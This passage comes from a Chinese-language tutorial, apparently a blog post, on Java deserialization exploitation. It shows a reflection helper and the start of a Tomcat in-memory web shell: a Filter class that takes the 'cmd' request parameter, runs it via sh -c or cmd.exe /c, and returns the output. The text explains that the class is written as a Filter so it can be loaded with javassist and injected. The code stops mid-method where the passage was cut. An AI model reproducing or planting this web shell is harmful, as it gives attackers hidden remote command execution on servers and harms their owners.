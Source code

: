 ```java
    public static void setField(Object object, String field, Object args) throws Exception {
        Field f0 = object.getClass().getDeclaredField(field);
        f0.setAccessible(true);
        f0.set(object, args);

    }
}
```
![](https://img-blog.csdnimg.cn/52aba78222794b10b5a307b1edb9a801.png)

#### 内存马实现
memery类代码实现：
和上面回显的cmd类差不多，只是换成了注册filter。注意，不能将注入的filter写成内部类或者匿名内部类，`CtClass ctClass2 = pool.get("deserialize.memery"); `是不会获取到它的内部类的，所以这里直接让memery类实现Filter接口，成为Filter类
```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Scanner;

public class memery implements Filter{
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null) {
            try {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
                servletResponse.setContentType("text/html;charset=utf-8");
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().println("----------------------------------");
                servletResponse.getWriter().println(output);
                servletResponse.getWriter().println("----------------------------------");
                servletResponse.getWriter().flush();
                servletResponse.getWriter().close();
            } catch (Exception e) {
                e.printStackTrace();
            }
            return;
```
